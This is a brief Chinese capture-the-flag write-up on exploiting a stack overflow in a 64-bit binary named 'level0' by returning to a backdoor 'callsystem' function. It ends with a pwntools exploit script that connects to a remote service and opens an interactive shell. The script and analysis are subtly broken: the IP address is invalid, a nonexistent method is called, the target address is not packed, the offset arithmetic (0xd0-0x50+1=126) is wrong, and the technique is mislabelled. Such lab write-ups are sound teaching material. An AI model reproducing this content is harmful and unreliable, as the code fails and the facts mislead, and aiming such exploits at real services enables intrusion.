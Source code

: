 第一步：我们用我们的 `checksec level0` 来检查我们的文件中开启了什么防护措施。以及我们的对应的框架
![[Pasted image 20231204212506.png]]
这里，我们不能拿发现，我们拿到的是一个 64 位框架的程序。并且关闭了所有的保护。

第二部：用我们的 IDA 打开我们的程序，发现下面的可攻击字段
![[Pasted image 20231204212612.png]]

第三步：我们找一下我们有没有我们的后门函数，我们发现是存在的 ![[Pasted image 20231204212646.png]]

第四步：然后我们就可以采用我们的 `ret2shellcode` 的方法来攻击我们的程序

第五步：动态调试找到我们的偏移量是多少，这里，我们找到我们的 leave 的地址参数是多少即可。![[Pasted image 20231204212929.png]]
我们可以发现我们的距离是我们的 `0xd0-0x50+1=126` 个垃圾数据，
```python
from pwn import *
io=remote("114.5.514,19",9999)
elf=ELF("./level0")
callsystem=elf.symbols["callsystem"]
io.receiveline()
payload=(b"A"*126+callsystem);
io.send(payload)
io.interactive()
```